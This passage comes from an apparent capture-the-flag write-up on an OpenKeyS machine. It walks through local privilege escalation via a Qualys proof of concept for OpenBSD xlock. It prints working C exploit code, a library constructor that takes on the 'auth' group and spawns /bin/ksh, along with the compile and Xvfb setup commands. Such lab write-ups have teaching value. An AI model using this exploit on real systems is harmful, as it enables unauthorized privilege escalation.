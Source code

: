This looks confusing at first, but really, it checks that can read the set-group-id of the current process, then sets the real, effective, and set-group-id groups to that group (in this case `auth`). Then it sets `argv` to `[/bin/ksh, 0]`, as `_PATH_KSHELL` is defined in `paths.h`, which I can find that on OpenKeyS:

```

openkeys$ find /usr/ -name paths.h 2>/dev/null
/usr/src/include/paths.h
/usr/include/paths.h
openkeys$ grep KSHELL /usr/include/paths.h     
#define _PATH_KSHELL    "/bin/ksh"

```

Then it calls `execve` with that set of args, which replaces the current process with the new shell.

#### Execute

I’ll run with the POC from Qualys, working out of any directory (Qualys shows `/tmp`, but I’ll use `/var/tmp` for variety). First I’ll drop the code for the shell and compile it:

```

openkeys$ cat > swrast_dri.c << "EOF"
> #include <paths.h>   
> #include <sys/types.h>       
> #include <unistd.h>                                                                                                                                                                                            
>          
> static void __attribute__ ((constructor)) _init (void) {
>     gid_t rgid, egid, sgid;                   
>     if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
>     if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
>                                
>     char * const argv[] = { _PATH_KSHELL, NULL };
>     execve(argv[0], argv, NULL);
>     _exit(__LINE__);                    
> }                                              
> EOF                             
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

```

Next I run `Xvfb`, which is the virtual framebuffer. It’s not totally clear to my why I do this, but I’m setting up the server to listen for connections on a server (poc uses `:66`, but it’s arbitrary, I’ll use `:45`). I think this is to allow me to get a response from `xlock` even though it’s not a program that displays anything. When I run it, sometimes it throws an error (on a clean reset it does not), but it’s still running in the background (because of the `&` at the end of the line):

```

openkeys$ env -i /usr/X11R6/bin/Xvfb :45 -cc 0 &
[1] 44906
openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.

```
